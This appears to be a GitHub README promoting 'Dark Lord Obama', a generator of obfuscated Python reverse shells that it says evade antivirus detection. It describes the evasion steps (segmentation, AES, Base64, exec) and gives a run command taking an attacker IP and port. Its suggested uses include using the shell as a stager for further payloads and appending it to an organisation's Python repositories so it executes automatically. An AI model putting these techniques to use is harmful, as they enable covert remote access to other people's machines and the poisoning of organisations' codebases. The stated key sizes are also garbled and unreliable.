 ![](https://xringarchery.files.wordpress.com/2019/07/obama-sith-lord.jpg)

# Dark Lord Obama - Undetectable Pythonic Payload Generator

Chang Tan Lister
Lister Unlimited Cybersecurity Solutions, LLC.
changtan@listerunlimited.com

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload1.png)

DLO generates a Pythonic reverse shell that as of July 29th, 2019, is undetectable on VirusTotal. It combines multiple won't-to-be-disclosed techniques (undiscloseable in detail) including but not limited to:

1. "Command Segmentation"
2. "AES Encryption" with a 32-bit key and a 16-bit initialization vector
3. Base64 Encoding - It was a necessity
4. Inline Python exec() functions, C asm() functions (will be added soon), Java/Jython, Cython, Ctypes

# Dark Lord Obama Official Release Demo

*Please click this link for a demostration video of how to use*

<a href=https://encryptedarchives2.s3-us-west-1.amazonaws.com/darklordobamarelease.mp4>Demo Video</a>

# Suggested Uses

Currently you can, after you gain a foothold in organization

1. Run the payload standalone.
2. Replace the proof-of-concept code with a Metasploit python payload
3. Taint/corrupt Python repositories: Locate the Python code repositories of a organization during a pentest and then copy-paste the entire code and append it to the bottom of the python module, guarantee auto-execution of the reverse shell when the code runs
4. Use the payload as a stager to download additional payloads
5. Use the payload against MacOS (MacBooks, iMacs, etc). They natively run Python 2.7.1

Run it as ```python darklordobama.py <attacker IP> <attacker listening port>```

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload2.png)

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload5.png)

# How does it work?

# First it chops up your payload into two-character segments, "Command Segmentation)

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-41.png)

# A ArrayMap is produced to allow the payload to reconstitute itself

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-31.png)

# The payload is then shuffled into a list array and then encrypted with AES-128

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-23.png)

# The encrypted payload is encoded in Base64 format

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-14.png)

